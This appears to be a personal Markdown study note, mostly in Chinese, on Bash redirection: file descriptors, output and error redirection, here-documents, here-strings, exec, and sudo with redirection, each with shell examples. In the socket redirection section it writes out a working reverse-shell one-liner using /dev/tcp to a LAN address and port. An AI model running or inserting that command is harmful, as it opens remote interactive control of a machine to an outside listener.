





# Linux Redirection

ref:

https://www.gnu.org/software/bash/manual/html_node/Redirections.html

https://program-think.blogspot.com/2019/11/POSIX-TUI-from-TTY-to-Shell-Programming.html?q=bash&scope=all

https://xz.aliyun.com/t/2548

https://www.gnu.org/software/bash/manual/html_node/Redirections.html

## FD

在理解 Redirection 前需要理解什么是 FD（文件描述符），具体可以参考 [File Discriptor(Handle)]()


## Redirection

Redirection allows command’s file handles to be duplicated, opened, closed, made to refer to different files, and can change the files the command reads from and writes to.

### cautions

1. Shell 在执行一条指令时。==会先检查命令中是否存在重定向符==，如果存在，会从左至右将FD 重定向。然后再执行命令

2. 如果 FD 是一个 unsigned integer, FD 就会被复制。直接可以理解成值应用

3. stdout 在某些 CLI 中可以`-`来占位

4. 重定向符左侧的是 FD

5. if the file descriptor number is omitted, and the first character of the redirection operator is ‘<’, the redirection refers to the standard input (file descriptor 0).  If the first character of the redirection operator is ‘>’, the redirection refers to the standard output (file descriptor 1).

   `<`默认省略 0 即`0< file `，`>`默认省略1即`1> file`，==文件描述符与箭头之间不能有空格==

## Input redirection

syntax：`[n]< file`

将文件描述符n重定向到file指代的文件(以只读方式打开，例如：cat对应binary的stdin)，如果n是0可以省略，`0< file`

```
root in /opt λ cat 0< /etc/hostname
ubuntu18.04
#等价
root in /opt λ cat < /etc/hostname
ubuntu18.04
```

解析器先处理`<`将stdin重定向`/etc/hostname`。当`cat`去读取stdin是就会从`/etc/hostname`中读取。

## Output redirection

syntax：`[n]> file | [n]>> file`

将文件描述符n重定向到file指定的文件(以写方式打开)，如果n是1可以省略，`1> file`

```
root in /opt λ cat /etc/hostname 1> t;cat t
ubuntu18.04
#等价
root in /opt λ cat /etc/hostname > t;cat t
ubuntu18.04
```

## Appending output redirection

syntax：`[n]>> file`

和 Output redirection 差不多，但是以 append 模式写入文件

## stdout and stderr redirection

syntax：`&> file  | >& file`

两者相同都是将 stdin 和 stderr 都定向到file中。等价`2&>1 | 2>&1`

```
root in /opt λ cat /etc/hostnamet >& t
root in /opt λ cat t
cat: /etc/hostnamet: No such file or directory

#等价
root in /opt λ cat /etc/hostnamex 1> t 2> t
root in /opt λ cat t
cat: /etc/hostnamex: No such file or directory

#等价，&是为了区分文件和文件描述符
root in /opt λ cat /etc/hostnamey >t 2>&1
root in /opt λ cat t
cat: /etc/hostnamey: No such file or directory
```

同理的还有 append 模式重定向 stdout 和 stderr

syntax：`&>> file| >>& file` 

## Excute Order

==默认情况下stdin, stdout, stderr 都会显示在tty上==

按照从左到右执行

### cmd > file 2>&1

扩展成cmd 1> file 2>&1

1. 原始状态



2. stdout以写的方式重定向到file



3. stderr复制到stdout



### cmd 2>& 1 > file

扩展成cmd 2>&1 1>file

1. 原始状态


2. stderr复制到stdout



3. stdout以写的方式重定向到file



## Special redirections

### >|

https://unix.stackexchange.com/questions/45201/bash-what-does-do

在一些shell中有一个noclobber选项，保护文件因为重定向而被覆盖或销毁。

如果noclobber设置为true，并且`/tmp/output.txt`文件存在，那么下面的命令将会失败

```
some-command > /tmp/output.txt
```

但是你能使用`>|`符号，表示强制重定向

### Here document

syntax:

```
[n]<<[-]word
        here-document
delimiter
```

This type of redirection instructs the shell to read input from the current source until a line containing only word (with no trailing blanks) is seen

从 stdin 中读取，==直到某一行中精确匹配 word 才会结束redirection==

==If any part of word is quoted, the delimiter is the result of quote removal on word, and the lines in the here-document are not expanded.==

如果word加引号了，here-document 部分的内容就不会进行模式扩展

==If word is unquoted, all lines of the here-document are subjected to parameter expansion, command substitution, and arithmetic expansion, the character sequence `\newline` is ignored, and ‘\’ must be used to quote the characters ‘\’, ‘$’, and ‘`’==

如果word没加引号，here-document 部分的内容就会进行模式扩展。会导致直接取到当前 shell 的变量，脚本可能就报错了

可以经常看见 here document 结合 cat 一起使用

```
cat > testcat <<EOF
heredoc> catEOF
heredoc> EOF
```

==大部分看见的都会写EOF(end of file)，但是 word 部分可以是任意字符或者单词== 

### Here String

syntax：`[n]<<< word`

The word undergoes tilde expansion, parameter and variable expansion, command substitution, arithmetic expansion, and quote removal. Filename expansion and word splitting are not performed. The result is supplied as a single string, with a newline appended, to the command on its standard input (or file descriptor n if n is specified).

通常用来简化 `echo xxx |`

```
awk '{print $0}'  <<<hello
hello
```

但是也支持其他 expansion

### [n]<>file

双向重定向，同时打开n作为写和读的文件描述符，==默认使用stdin==

```
#会将EOF写入到文件中
[cpl@cyberpelican ~]$ echo test > file1
#cat会读取到EOF然后停止，等价与重新写入到file1
[cpl@cyberpelican ~]$ cat 0<> file1
test
[cpl@cyberpelican ~]$ cat file1
test
```

==结合exec有特殊用法==，当前shell &3的内容被输入到tempfile，tempfile的内容被输入到当前shell  &3，删除文件时还是可以从&3读取到内容

```
[cpl@cyberpelican ~]$ F=$(mktemp)
[cpl@cyberpelican ~]$ exec 3<>$F
[cpl@cyberpelican ~]$ echo hello world > $F
[cpl@cyberpelican ~]$ cat $F
hello world
[cpl@cyberpelican ~]$ rm -f $F
[cpl@cyberpelican ~]$ cat <&3
hello world
```

### socket redirection

> 只适用 Bash shell

- `/dev/tcp/host/port`

  If host is a valid hostname or Internet address, and port is an integer port number or service name, Bash attempts to open the corresponding TCP socket.

- `/dev/udp/host/port`

  If host is a valid hostname or Internet address, and port is an integer port number or service name, Bash attempts to open  the corresponding UDP socket.

  常用 reverse shell

  ```
  bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
  ```

  具体参考 [/dev/tcp/host/port]()

### sub shell redirection

```
diff <(echo 1) <(echo 2)
```

### exec redirection

参考[exec](../../Shell/Shell exec.md)

syntax：`exec [n]</> file`

==如果exec没有指定command，表示指定的重定向对当前shell的subshell都生效==。

```
#file的内容为空
root in /opt λ exec 3>file
#等价ls >&3 3>file
root in /opt λ ls >&3
#等价 cat file 3> file
root in /opt λ cat file
alibabacloud
Blasting_dictionary-master
containerd
DNSLog-master
DNSLog-master.zip
Dockerfile
Dockerfile.hex
etc
file
jobfile.fio
lsd-0.18.0-x86_64-unknown-linux-gnu
main.go
ossman
shebang.sh
ssl
t
```

## Sudo and redirection

当用户没有权限但是想通过重定向的方式向文件中写入，就会出现permission deny，例如：

```
sudo curl -fsSL a.b.c > file
zsh: permission denied: file
```

虽然curl是以root来执行的，但是重定向并没有以root方式来执行。可以通过一下几种方式来解决

方法1

```
sudo curl -fsSL a.b.c | sudo tee file
```

方法2

```
sudo bash -c "curl -fsSL a.b.c > file"
```


